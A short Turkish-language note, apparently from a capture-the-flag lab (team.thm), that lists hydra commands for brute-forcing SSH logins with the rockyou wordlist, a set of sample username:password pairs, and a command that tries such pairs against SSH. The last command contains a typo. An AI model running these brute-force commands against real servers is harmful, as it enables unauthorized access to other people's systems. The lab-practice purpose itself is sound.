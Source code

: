*** ssh için dale ismi ile bruteforce ***

``` bash
hydra -l dale -P /usr/share/wordlists/rockyou.txt  ssh://team.thm
```
veya

``` bash
hydra -l dale -P /usr/share/wordlists/rockyou.txt  ssh://10.10.10.10
```

claire-r:Password1
chris-r:letmein
jill-v:sunshinel
barry-b:sandwich
Yukarıdaki gibi bir listeyi bruteforce ile ssh de denemek ıcın
``` bash
hydra -C file ssh//10.10.1.1 -T4 
```
